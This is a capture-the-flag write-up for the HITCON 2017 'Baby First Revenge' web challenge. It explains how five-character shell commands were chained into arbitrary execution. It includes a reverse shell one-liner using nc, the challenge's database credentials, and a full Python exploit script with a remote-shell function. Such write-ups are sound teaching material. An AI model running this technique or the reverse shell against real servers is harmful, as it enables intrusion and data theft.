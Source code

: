 ```yaml
---
layout: post
title: "Hitcon CTF 2017 Quals: Baby First Revenge (web 172)"
author: yrlf
categories: writeup
tags: [cat/web, tool/python-requests, tool/ipython]
---
```


* **Category:** web
* **Points:** 172
* **Description:**

> Do you remember [BabyFirst](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst) from HITCON CTF 2015?
>
> This is the harder version!
> 
> [http://52.199.204.34/](http://52.199.204.34/)

## Write-up

This was the first challenge I tried this CTF, and it was a really fun one.

```php
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

The website is a PHP script that allows you to execute shell commands up to 5 characters in length
in a folder, where we have write access. We can also request the files there and download them.

I knew that bash allows you to create empty files with `>file`, so we used that as a starting point.

At first, we tried writing text into files with `ls>y`, but that didn't lead us very far, because the shell creates the file `y` before `ls` runs, so `y` would contain lots of unwanted `y` characters between our filenames

After quite a long time, we found out, that `xxd -p -r` ignores all non-hex characters, and that we could use `ls>>y` to slowly build up a file containing arbitrary hex digits and lots of `y` characters.

And for executing `xxd -p -r infile outfile` we just create a `-p` and a `-r` file and execute `xxd *`. We just have to make sure that our infile and outfile sort after `-p` and `-r`.

for example, writing "HELLO" to a file would work like this

```sh
>4845
ls>>y
rm 4*
>4c4c
ls>>y
rm 4*
>4f
ls>>y
rm 4*
>z
>-p
>-r
xxd *
```

I then wrote a script that writes arbitrary files and executes them as a shell command with `sh z`.

We then executed a reverse shell with

```sh
mkfifo f; nc <host> <port> <f | bash >f 2>f
```

and looked for the flag.

We found a `README.txt` in the home directory of user fl4444g, which contained this:

```
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```

After that, we used mysql to get the flag
```
$ mysql -ufl4444g -pSugZXUtgeJ52_Bvr
mysql> SHOW DATABASES;
Database
information_schema
fl4gdb
mysql> use fl4gdb;
SHOW TABLES;
Tables_in_fl4gdb
this_is_the_fl4g
mysql> SELECT * FROM this_is_the_fl4g;
secret
hitcon{idea_from_phith0n,thank_you:)}
```

## Script

The script we used (via ipython "run script") to get a shell on the system.

```python3
import requests as rq
import hashlib as h
import binascii as ba

url = "http://52.199.204.34/"
ipify = "https://api.ipify.org"

def get_ip():
    r = rq.get(ipify)
    return r.text

folder = h.md5(b"orange" + get_ip().encode()).hexdigest()

def reset():
    rq.get(url, params = {
        "reset": 1
    })

def cmd(c):
    rq.get(url, params = {
        "cmd": c
    })

def read(f):
    r = rq.get(url + "sandbox/" + folder + "/" + f)
    if r.status_code == 200:
        return r.text

def long_cmd(cmd_text):
    reset()
    cmd_bytes = cmd_text.encode()
    for i in range(0, len(cmd_bytes), 2):
        cur_bytes = cmd_bytes[i:i + 2]
        print("writing '{}'".format(cur_bytes.decode()))
        hex_chars = ba.hexlify(cur_bytes).decode()
        cmd(">" + hex_chars)
        cmd("ls>>y")
        cmd("rm " + hex_chars[0] + "*")
    cmd(">z")
    cmd(">-p")
    cmd(">-r")
    cmd("xxd *")
    cmd("sh z")
    return read("o")

def shell(cmd_text):
    print(long_cmd(cmd_text))

def rshell(host, port):
    long_cmd("mkfifo f; nc {} {} <f | bash >f 2>f".format(host, port))
```
